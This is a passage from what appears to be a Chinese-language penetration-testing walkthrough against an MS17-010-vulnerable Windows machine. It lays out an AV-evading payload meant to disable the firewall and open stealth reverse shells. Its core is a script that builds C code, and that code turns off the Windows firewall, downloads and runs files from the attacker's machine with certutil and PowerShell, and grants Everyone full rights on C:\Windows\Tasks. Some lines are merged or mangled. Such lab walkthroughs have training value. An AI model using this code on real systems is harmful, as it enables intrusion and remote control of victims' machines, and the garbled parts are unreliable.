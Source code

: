 我们的目标机器易受 MS17–010 攻击！

**有效负载创建(针对 Window 7 和更高版本)** 我们最终的有效负载将是一个可执行文件:
-不会被 Windows Defender 软件删除
-禁用 Windows 防火墙
-在没有 Powershell 的系统上工作
-将设置一个“隐身”Powercat 反向 shell(端口 25)
-将设置一个“隐身”meterpreter php 反向 shell(端口 53)

运行该漏洞所需的一切都被复制到 Kali 上的/tmp 目录中。我们将通过 Python 简单 HTTP 服务器提供这个目录。

7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

复制并粘贴下面的 C 代码以创建源文件/tmp/backup.c .(调整 kali =<ip-address with="" your="" kali="" host=""></ip-address>

```
LHOST=192.168.62.161
portweb=80
rshell=shell-25.txtcd /tmp
echo '#include <stdlib.h>'> testexe.c
echo 'int main ()' >> testexe.c
echo '{'>> testexe.c
echo 'int i;' >> testexe.c
# Add userecho 'i = system ("netsh advfirewall set allprofiles state off");' >> testexe.c
# Download files
echo i = system \("\"certutil.exe -urlcache -split -f \\"\""[http://${LHOST}:${portweb}/backup.bat\\](http://${kali}:${portweb}/backup.bat\\)"\"" C:\\\\\Windows\\\\\Tasks\\\\\\\backup.bat"\"\)\; >> testexe.c
echo i = system \("\"certutil.exe -urlcache -split -f \\"\""[http://${LHOST}:${portweb}/php.exe\\](http://${kali}:${portweb}/php.exe\\)"\"" C:\\\\\Windows\\\\\Tasks\\\\\\\php.exe"\"\)\; >> testexe.c
echo i = system \("\"certutil.exe -urlcache -split -f \\"\""[http://${LHOST}:${portweb}/php7.dll\\](http://${kali}:${portweb}/php.exe\\)"\"" C:\\\\\Windows\\\\\Tasks\\\\\\\php7.dll"\"\)\; >> testexe.c
echo i = system \("\"powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('[http://${LHOST}:${portweb}/backup.bat','C:\\\\\Windows\\\\\Tasks\\\\\\\backup.bat'](http://${kali}:${portweb}/backup.bat','C:\\\\\Windows\\\\\Tasks\\\\\\\backup.bat'))"\"\)\; >> testexe.c
# Execute files
echo i = system \(\"ping -n 1 $LHOST\"\)\; >> testexe.c
echo 'i = system ("START /B c:\\\\Windows\\\\Tasks\\\\backup.bat");' >> testexe.c
echo i = system \(\"icacls c:\\\\\\Windows\\\\\\Tasks\\\\\\\\* /c /t /grant everyone:f\"\)\; >> testexe.cecho 'return 0;' >> testexe.c 
echo '}' >> testexe.c
```

Result is source file /tmp/testexe.c

![](img/99554f3512533a6d3937a42bd08ce9e0.png)
